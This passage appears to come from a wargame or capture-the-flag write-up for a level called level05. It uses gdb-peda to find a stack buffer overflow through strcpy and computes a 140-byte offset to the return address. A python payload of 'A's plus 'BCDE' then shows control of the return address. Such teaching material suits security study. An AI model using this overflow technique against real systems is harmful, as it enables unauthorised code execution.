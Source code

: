 ```sh
gdb-peda$ disass main
Dump of assembler code for function main:
   0x080483b4 <+0>:	push   ebp
   0x080483b5 <+1>:	mov    ebp,esp
   0x080483b7 <+3>:	sub    esp,0xa8
   0x080483bd <+9>:	and    esp,0xfffffff0
	...
   0x080483e5 <+49>:	lea    eax,[ebp-0x88]
   0x080483eb <+55>:	mov    DWORD PTR [esp],eax
   0x080483ee <+58>:	call   0x80482d4 <strcpy@plt>
	...
   0x08048419 <+101>:	leave  
   0x0804841a <+102>:	ret    
End of assembler dump.
```

By looking the `strcpy`, we know from the source code that first argument is `buf`.
`ebp-0x88` is at the top of the stack, thus this is actually refering to `buf`.

From this, we know that it takes 0x88 bytes to reach the location of `ebp`. However, at <main+0>, there is a push ebp. This means ebp is above return address.
The 1 slot of the 32 bit stack takes 4 bytes.

Therefore, we will need 0x88 + 4 to reach the return address.

```sh
gdb-peda$ p/d 0x88 + 4
$1 = 140
```
A total of 140 bytes is needed.

To verify, we will set a break point before calling `ret`.

```sh
gdb-peda$ break *main+102
Breakpoint 1 at 0x804841a
gdb-peda$ run $(python -c "print 140*'A'+'BCDE'")
Starting program: /levels/level05 $(python -c "print 140*'A'+'BCDE'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDE
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0x7fffff6f 
EDX: 0xb7fc3870 --> 0x0 
ESI: 0x2 
EDI: 0xb7fc2000 --> 0x1b3db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffffbec ("BCDE")
EIP: 0x804841a (<main+102>:	ret)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048409 <main+85>:	mov    DWORD PTR [ebp-0x8c],0x0
   0x8048413 <main+95>:	mov    eax,DWORD PTR [ebp-0x8c]
   0x8048419 <main+101>:	leave  
=> 0x804841a <main+102>:	ret    
   0x804841b:	nop
   0x804841c:	nop
   0x804841d:	nop
   0x804841e:	nop
[------------------------------------stack-------------------------------------]
0000| 0xbffffbec ("BCDE")
0004| 0xbffffbf0 --> 0x0 
```
